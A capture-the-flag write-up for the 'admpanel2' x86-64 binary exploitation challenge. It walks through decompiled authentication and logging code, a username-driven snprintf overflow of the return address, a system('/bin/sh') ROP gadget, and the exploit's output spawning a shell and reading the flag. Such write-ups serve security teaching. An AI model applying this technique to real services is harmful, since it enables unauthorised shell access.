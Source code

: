 # Admpanel2 - x86-64 pwn
We are supplied with the binary [admpanel2](https://github.com/henriknero/writeups/tree/master/admpanel2/admpanel2). This is the followup to the challenge admpanel. Supposedly having patched the previous binary so it should be secure. 
```
$ file admpanel2 
admpanel2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=3c92c2bcbc592fcec34f26a30abfde62b414a025, stripped
```

The only change in the code that I was able to find was an added line to the exec_command function(0x4014d5):
```c
...
  else {
    printf("  Command to execute: ");
    fgets(local_408,0x400,stdin);
    iVar1 = strncmp(local_408,"id",2);
    if (iVar1 == 0) {
      local_408[2] = '\0'; //This line added.
      system(local_408);
    }
    else {
      puts("Any other commands than `id` have been disabled due to security concerns.");
      log_func("EXEC_HONEYPOT",is_admin,&DAT_004040e0,local_408);
    }
  }
...
```
So the bug was likely present before the patch. The bug that we found was located in the authentication function, with a followup fault in the log function. **Because of this we are able to cause a buffer overflow and are able to overwrite the return address in exec_command function.**
## Ghidra decompiled code of authenticate function(0x4013ed)
```c
...
  printf("  Input username: ");
  fgets(&DAT_004040e0,0x400,stdin);
  iVar1 = strncmp(&DAT_004040e0,"admin",5);
  if (iVar1 == 0) {
    printf("  Input password: ");
    fgets(local_408,0x400,stdin);
    iVar1 = strncmp(local_408,"password",8);
    if (iVar1 == 0) {
      is_admin = 1;
    }
...
```
There are two bugs in the authentication functions that we can utilize. 
1. So long as the first 5 chars are admin we are allowed supply 0x400-char username. 
2. If we have logged in once, we can change the username without losing admin rights.

## Ghidra decompiled code of log_function(0x40121a)
```c
...
  int bytes_written;
  size_t snpr_size;
  char *output_string;
  
  output_string = also_output_string?;
  snpr_size = 0x100;
  bytes_written = snprintf(output_string,0x100,"LOG: [OPERATION: %s] ",error_message);
  if (bytes_written < 0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  output_string = output_string + bytes_written;
  snpr_size = snpr_size - (long)bytes_written;
  if (is_admin != 0) {
    bytes_written = snprintf(output_string,snpr_size,"[USERNAME: %s] ",username);
    if (bytes_written < 0) {
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    output_string = output_string + bytes_written;
    snpr_size = snpr_size - (long)bytes_written;
  }
  if (*command != '\0') {
    bytes_written = snprintf(output_string,snpr_size,"%s",command);
    if (bytes_written < 0) {
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    output_string = output_string + bytes_written;
    snpr_size = snpr_size - (long)bytes_written;
  }
...
```
Conveniently we already have a pointer to our username in RAX when we reach the return address in exec_command function. As we control this variable we simply set it to "/bin/sh;"+padding and then call the following gadget.
```
00401598 48 89 c7        MOV        RDI,RAX
0040159b e8 b0 fa        CALL       system
         ff ff

```

```
$ ./exploit 
[*] '/home/henrik/midnight2020/admpanel2/admpanel2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to admpanel2-01.play.midnightsunctf.se on port 31337: Done
[*] Switching to interactive mode
Any other commands than `id` have been disabled due to security concerns.
$ ls
chall
flag
redir.sh
$ cat flag
midnight{n3ver_4sk_hsp3_t0_do_s0m3th1ng}
$  
```

The exploit script can be found [here](https://github.com/henriknero/writeups/tree/master/admpanel2/exploit)